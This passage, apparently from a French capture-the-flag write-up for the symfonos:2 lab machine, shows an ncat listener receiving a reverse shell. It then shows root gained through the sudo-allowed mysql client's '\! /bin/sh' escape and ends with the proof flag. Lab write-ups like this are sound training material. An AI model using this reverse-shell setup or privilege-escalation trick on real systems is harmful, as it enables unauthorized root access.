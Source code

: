 Il faut avoir préalablement mis en écoute un `Ncat` :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.113.
Ncat: Connection from 192.168.56.113:41036.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
```

Depuis ce compte on veut exécuter une commande avec les droits root :

```bash
cronus@symfonos2:~$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```

Une fonctionnalité du client `mysql` permet d'appeler une commande du shell :

```bash
cronus@symfonos2:~$ sudo /usr/bin/mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 31
Server version: 10.1.38-MariaDB-0+deb9u1 Debian 9.8

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> \! /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt
# cat proof.txt

        Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
```